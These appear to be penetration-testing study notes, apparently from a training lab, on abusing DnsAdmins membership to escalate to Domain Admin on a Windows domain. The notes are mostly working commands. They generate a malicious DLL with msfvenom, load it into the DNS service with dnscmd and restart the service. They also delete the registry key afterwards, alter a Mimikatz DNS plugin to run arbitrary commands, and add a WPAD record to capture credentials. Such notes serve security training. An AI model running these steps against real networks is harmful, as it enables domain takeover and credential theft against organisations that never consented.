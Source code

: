 # DnsAdmin Member
```
whoami /groups
```
```
DnsAdmins
```
```
net localgroup "DnsAdmins"
```
## Leveraging DnsAdmins Access
### Generating Malicious DLL
1. Add a user to the domain admins group using msfvenom
```
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```
2. Transfer the file to the host machine
#### Loading DLL as Non-Privileged User
```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```
Access Denied
#### Loading DLL as Member of DnsAdmins
```
Get-ADGroupMember -Identity DnsAdmins
```
After confirming group membership in the DnsAdmins group, we can re-run the command to load a custom DLL.
```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```
After restarting the DNS service (if our user has this level of access), we should be able to run our custom DLL and add a user (in our case) or get a reverse shell. If we do not have access to restart the DNS server, we will have to wait until the server or service restarts. Let's check our current user's permissions on the DNS service.
##### Finding User's SID
```
wmic useraccount where name="netadm" get sid
```
##### Checking Permissions on DNS Service
```
sc.exe sdshow DNS
```
##### Check permissions using this article
```
https://www.winhelponline.com/blog/view-edit-service-permissions-windows/
```
Done from cmd
Stopping the DNS Service
```
C:\ sc stop dns
```
Starting the DNS Service
```
C:\ sc start dns
```
##### Confirming Group Membership
```
C:\ net group "Domain Admins" /dom
```
**SIGN OUT AND THEN SIGN IN TO TAKE EFFECT**
#### Cleaning Up
##### Confirming Registry Key Added
```
C:\htb> reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```
We find the name of our .dll file and on the far left the name of the key points that points to our custom DLL
##### Deleting Registry Key
```
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
```
##### Starting the DNS Service Again
```
sc.exe start dns
```
```
sc query dns
```
### Using Mimilib.dll
we could also utilize mimilib.dll from the creator of the Mimikatz tool to gain command execution by modifying the kdns.c file to execute a reverse shell one-liner or another command of our choosing.
```
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```
### Creating a WPAD Record
After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through our attack machine. We could use a tool such as Responder or Inveigh to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.
Disabling the Global Query Block List
```
C:\htb> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```
Adding a WPAD Record
```
C:\htb> Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```